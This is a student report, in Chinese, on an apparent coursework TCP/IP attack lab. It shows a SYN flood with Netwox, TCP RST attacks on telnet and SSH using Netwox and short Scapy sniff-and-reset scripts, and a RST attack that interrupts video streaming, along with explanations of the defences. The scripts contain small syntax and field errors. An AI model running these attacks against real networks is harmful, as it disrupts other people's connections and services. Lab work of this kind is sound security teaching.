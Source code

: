 # TCP/IP Attack Lab

## Task1：SYN Flooding Attack 

#### 实验

首先完成在host1 和 host2 之间的Telnet 连接。

- Host1：

  ![image-20200604192113460](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604192113460.png)

  

在host2中用`netstat --na|grep TCP`检查当前的TCP相关端口的状态。发现端口23  in the unicom state. 

- Host2：

  ![image-20200604193100739](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604193100739.png)

Set syn on host 2 to be off.

- Host 2:

  ![image-20200604193156869](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604193156869.png)

在host1中断开Telnet， 然后在Host3用Netwox76去发起针对host2 的端口23的SYN attack。

- Host 3

  ![image-20200604193539254](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604193539254.png)

攻击结果截图：

- Host 2

  ![image-20200604193707616](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604193707616.png)

在Host2被SYN flooding时， Host1 不能连接上Host2

- Host1 ：

  ![image-20200604194638975](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604194638975.png)

然后启动host2的SYN cookie机制

- Host2 

  ![image-20200604194759308](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604194759308.png)

用Host3 进行攻击：

- Host3 ： 

  ![image-20200604194829313](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604194829313.png)

这时由于Host2 打开了 SYN 机制，所以Host1 依然能连接到Host2

![image-20200604194922367](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604194922367.png)

#### 分析

SYN泛洪是一种DOS攻击，攻击者在不尝试完成三向握手协议的情况下向受害者发送大量SYN数据包。他们用不断地请求来填满半开放连接TCP队列，导致服务器冻结。服务器正忙于使用其所有资源来接收，存储和发送SYN数据包的ACK。 SYN数据包来自各种IP。这些IP是无效的；他们无法完成三次握手。因此，服务器必须等待超时才能拒绝这些请求。接收到数据包后，队列的状态将同步接收。建立连接后，即会建立连接。当SYN cookie机制打开时，队列几乎已满时将清空。不需要队列，它们只是3次握手中的性能改进。这就是为什么尽管发生SYN泛洪攻击，对新Telnet连接的请求仍在进行的原因。

## Task2 TCP RST Attacks on telnet and ssh Connections 

### Using Netwox

#### TELNET

在host1和host2 建立Telnet连接，从host1发送到host2的信息可以被host3监听到。

- Host1:

  ![image-20200604200318483](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604200318483.png)

- Host2:

  ![image-20200604200340540](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604200340540.png)

- Host3:

  ![image-20200604200438897](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604200438897.png)

  

用Host3通过Netwox78对Host1进行RST攻击。回到Host1，发现连接已经被其他host断开。通过Host2进行观察，发现端口已经不再被占用了。

- Host1

  ![image-20200604201445140](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604201445140.png)

- Host 2

  ![image-20200604201503176](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604201503176.png)

  

Host1 尝试去重连但是失败了。注意到来自host3的攻击并没有停止。重新来看host1，host1尝试去连接host2，我们注意到连接成功了一下，但是很快又断开了。Host3 能看到host1发送给host2的TCP RST包。

- Host1

  ![image-20200604203304389](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604203304389.png)

- Host3 

  ![image-20200604203730055](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604203730055.png)

  

#### SSH

首先在Host1建立SSH 连接

![image-20200604210037669](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604210037669.png)

查看host2

![image-20200604210059077](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604210059077.png)

使用Netwox78 从Host3处发起对host1的攻击。

在Host1处发现无法连接上host2

- host1：

  ![image-20200604210444223](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604210444223.png)

Host3 可以看到Host1发送的TCP RST 包。

- Host3

  ![image-20200604210545519](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604210545519.png)

### Using Scapy

#### TELNET

- Host3

  ```python
  from scapy.all import *
  def tcp_rst_telnet(pkt):
      ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
  	tcp = TCP(src=pkt[TCP].dport, dport=pkt[TCP].sport, flags=0x14, seq = pkt[TCP].ack, ack = pkt[TCP].seq+1)
      pkt = ip / tcp
      ls(pkt)
      send(pkt, verbose = 0)
      
  pkt = sniff(filter='host 192.168.174.139 and host 192.168.174.140 and port 23',prn = tcp_rst_telnet)
  ```

在host3运行上述代码对host1进行攻击。可以看到host1的现象如下：

![image-20200604212001815](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604212001815.png)

#### SSH

```python
from scapy.all import *
def tcp_rst_telnet(pkt):
    ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
	tcp = TCP(src=pkt[TCP].dport, dport=pkt[TCP].sport, flags=0x14, seq = pkt[TCP].ack, ack = pkt[TCP].seq+1)
    pkt = ip / tcp
    #ls(pkt)
    send(pkt, verbose = 0)
    
pkt = sniff(filter='host 192.168.174.139 and host 192.168.174.140 and port 22',prn = tcp_rst_telnet)
```

在host3运行上述代码对host1进行攻击。可以看到host1的现象如下：

![image-20200604212342072](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604212342072.png)

### 分析

用TCP RST关闭TCP连接的方式：一方只需向另一方发送一个TCP RST包，立即断开连接。RS T也是TCP报头中的六个代码位之一。这种方法主要用于紧急情况，当没有时间执行FIN协议时。当检测到一些错误时，还会发送RST数据包。例如，在针对TCP服务器的SYN洪泛攻击中，如果欺骗的源IP地址确实属于正在运行的计算机，那么它将从服务器接收SYN + ACK包。但是，由于机器从来没有初始化过连接请求，它知道有什么地方出错了，因此，根据协议，它用一个RST包进行应答，基本上就是告诉服务器关闭半开的连接。因此，RST对于TCP协议非常重要。

## Task3 TCP RST Attacks on Video Streaming Applications 

刚好李子柒发视频了hhh，在Host2 随便开一个billbill看一波李子柒。

![image-20200604212849879](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604212849879.png)

用task2的方法在host3发送一个RST包给host2。这导致了视频流被断开了，因此视频就无法被加载。

![image-20200604213044710](Lab4-LiangchengLi-3170102735-XinweiJiang-3170103559-JiongruiHuang-3170103455.assets/image-20200604213044710.png)

